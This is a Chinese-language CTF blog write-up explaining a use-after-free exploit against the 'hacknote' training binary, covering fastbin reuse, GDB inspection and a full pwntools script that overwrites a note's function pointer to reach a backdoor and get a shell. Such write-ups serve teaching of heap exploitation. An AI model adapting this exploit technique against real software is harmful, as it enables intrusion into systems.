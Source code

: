 ```yaml
---
title: 「PWN」堆的第一次尝试 - UseAfterFree
date: 2022-06-30
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


磨磨蹭蹭这么久也总算是入 HEAP 的坑了

感谢 Ayoung 不开之恩（bushi）

先来看一下最简单的`Use After Free`利用，对堆的知识需求很低。明天估计会写一个`Double Free + Unlink`的

用的是`CTF-WIKI`的原题[hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote)

<!--truncate-->

# Pwntools 使用不同的`libc`作为动态解释器的方法

这里提一下中途遇到的坑。`libc-2.31`对堆的回收机制有了不少改变，因此在一开始根据`CTF-WIKI`的方法调试的时候行不通。因此写一下更换动态解释器的方法。

首先需要两个工具，[glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one)和[patchelf](https://github.com/NixOS/patchelf)

安装方法自行查看`README.md`不多赘述

下载对应的`libc`后，使用`patchelf`对`ELF`文件进行解释

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

##

# Use After Free

引起这个漏洞的原因主要是`dangling pointer` —— 在`free()`后内存指针没有被设置为 NULL。

如果此时其他代码修改了这段内存的内容的话，再次使用这段内存就会出现问题。

## Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free
# Make
```

保护全关、64 位

![struct_note](https://oss.nova.gal/img/image-20220314214330300.png)

程序定义了一个结构体，定义了一个`printnote`的指针指向`print_note_content`方法以及一个`content`的指针。

![add_note()](https://oss.nova.gal/img/image-20220314214555940.png)

看一下`add_note()`的实现：首先`malloc`了一个`struct note`，也就是 16 字节的堆。在这之后，为`content`申请了`size`字节的堆。

![del_note()](https://oss.nova.gal/img/image-20220314214818884.png)

注意看`del_note()`。在删除节点后，`count`没有变化——这一方面限制了我们`add_note()`的次数，另一方面也给我们的漏洞利用提供了便利。同时，我们可以发现`free`之后`notelist[idx]`并没有置为`NULL`，这便给我们的`Use After Free`带来了可能。

![print_note()](https://oss.nova.gal/img/image-20220314215110776.png)

可以看出，`print_note()`调用了`notelist[idx]->printnote(notelist[idx])`方法，假如我们能把`notelist[idx]->printnote`的内存修改了的话，也就能做到执行后门函数的效果了。

## Exploit

因为`struct note`是固定`0x20`大小的`chunk`，所以我们主要思考`fastbins`相关的利用

因为`fastbins`维护了`0x20~0x80`的数个链表，且有后进先出的机制。我们不妨这样思考：

倘若我们申请两个`0x20`的 note 记为`note1`、`note2`，此时我们的程序应该有 4 个堆——两个大小为`0x20`的`note1_struct_note`和`note2_struct_note`以及两个大小为`0x30`的`note1`和`note2`（不计算`PREV_IN_USE`的一字节）

这时我们将两个 note 全部释放，则`fastbisn`中此时应该是这样的

```sh
fastbins:
	0x20: note2_struct_note_addr -> note1_struct_note_addr
	0x30: note2 -> note1
```

如果我们此时再申请一个`0x10`的 note`note3`呢？由`fastbins`的回收利用机制我们可以想到

第一个`note2_struct_note_addr`被分配给了`note3_struct_note_addr`，而第二个`note1_struct_note_addr`则被分配给了我们可控的`note3`

这时，如果我们将`note3`的`content`改为后门函数，并执行`print_note(0)`

——如你所料的，后门函数被执行了。

```python
from pwn import *

sh = process(["./use_after_free"])


def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)


def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```

## GDB

以上只是理论知识，没有`GDB`实际调过确实是一知半解。

根据上面的 exp，我们分别在第二个`add_note()`和第二个`delete_note()`以及最后一个`add_note()`下调试看看

![heap after adding](https://oss.nova.gal/img/image-20220314221552787.png)

![heap after adding](https://oss.nova.gal/img/image-20220314221633396.png)

`0x401256`是`print_note_content()`的地址，`0xd04030`和`0xd04080`是`content`的地址

![heap after deleting](https://oss.nova.gal/img/image-20220314221804318.png)

![heap after deleting](https://oss.nova.gal/img/image-20220314221824810.png)

![heap after deleting](https://oss.nova.gal/img/image-20220314221944311.png)

可以看出，不同大小的链表进入了不同的`fastbins`中。

![heap final](https://oss.nova.gal/img/image-20220314222135890.png)

![heap final](https://oss.nova.gal/img/image-20220314222201810.png)

![heap final](https://oss.nova.gal/img/image-20220314222221269.png)

最后一次添加之后，我们发现：`fastbins`中的两个`0x20`大小的堆被回收利用了！且作为`content`的`0x4015f9`的后门函数地址已经写到了一开始`print_note_content()`的地方

此时运行`print_note()`，后门函数便执行了

![Shell!](https://oss.nova.gal/img/image-20220314222613059.png)
